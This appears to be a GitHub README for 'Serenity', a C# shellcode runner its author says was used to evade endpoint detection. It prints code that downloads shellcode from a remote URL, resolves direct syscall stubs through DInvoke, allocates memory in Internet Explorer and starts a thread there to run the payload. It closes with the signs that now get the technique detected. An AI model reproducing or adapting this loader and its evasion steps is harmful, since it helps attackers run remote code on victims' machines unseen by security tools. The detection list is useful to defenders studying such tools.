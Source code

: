 # Disclaimer
I stopped using this when APT-37 was observed [exploiting Internet Explorer](https://blog.google/threat-analysis-group/internet-explorer-0-day-exploited-by-north-korean-actor-apt37/) and as a result, I noticed that a week after that my malware was getting identified by MDE, which resultant, led to detections in nearly every other EDR. I did switch to Microsoft Edge, which kept it going for a few more months, but ultimately I had to put it down. It will take significant rewrites to get this bypassing EDR once again, as well as rewrites to adapt to modern day .NET and VS Studio.
# Technical Info
Serenity was a C# shellcode runner I made and used a few years ago to bypass EDR. It leverages DInvoke, a .NET library that will let you use direct system call invocation. EDR hooks traditional Windows API calls like ```OpenProcess```, ```VirtualAllocEx```, thus, DInvoke uses native system calls at runtime as an alternative.

First and foremost, it utilizes ```HttpClient``` to fetch the shellcode from a remote URL, and stores it as a byte array in memory - which was better than on disk. However, if your domain didn't have good reputation, this entire process was burnt.
```
byte[] shellcode;
using (var client = new HttpClient())
{
    shellcode = await client.GetByteArrayAsync("http://example.com/update.bin");
}
```
The address of ```NtOpenProcess``` is dynamically resolved by ```Generic.GetSyscallStub()``` at runtime - which bypasses user-mode hooks.
```
var ptr = Generic.GetSyscallStub("NtOpenProcess");
var ntOpenProcess = Marshal.GetDelegateForFunctionPointer(ptr, typeof(Native.DELEGATES.NtOpenProcess)) 
    as Native.DELEGATES.NtOpenProcess;
```
Next, there's the memory allocation and injection
```
var ptr = Generic.GetSyscallStub("NtAllocateVirtualMemory");
var ntAllocateVirtualMemory = Marshal.GetDelegateForFunctionPointer(ptr, typeof(Native.DELEGATES.NtAllocateVirtualMemory)) 
    as Native.DELEGATES.NtAllocateVirtualMemory;

ntAllocateVirtualMemory(hProcess, ref hMemory, IntPtr.Zero, ref regionSize, 
    Win32.Kernel32.MEM_COMMIT | Win32.Kernel32.MEM_RESERVE, Win32.WinNT.PAGE_READWRITE);
```
Instead of using ```VirtualAllocEx``` I was using ```NtAllocateVirtualMemory``` directly to allocate memory in IE. The protection was later changed to ```PAGE_EXECUTE_READ``` using ```NtProtectVirtualMemory```.

For the final step, the actual execution is utilizing ```NtCreateThreadEx``` which created a thread while avoiding API hooks, unlike ```CreateRemoteThread```.
```
var ptr = Generic.GetSyscallStub("NtCreateThreadEx");
var ntCreateThreadEx = Marshal.GetDelegateForFunctionPointer(ptr, typeof(Native.DELEGATES.NtCreateThreadEx)) 
    as Native.DELEGATES.NtCreateThreadEx;

var status = ntCreateThreadEx(out _, Win32.WinNT.ACCESS_MASK.GENERIC_ALL, IntPtr.Zero, hProcess, hMemory, IntPtr.Zero, false, 0, 0, 0, IntPtr.Zero);
```

Why this malware is dead in 2025:
- I mean, first and foremost, ```iexplore.exe``` spawning threads with shellcode is suss.
- ```NtAllocateVirtualMemory``` and ```NtCreateThreadEx``` are monitored heavily now, and being called in such quick succession is a red flag.
- Kernel-level syscall monitoring
- A million other behavioral indicators, another being Symon/ETW.
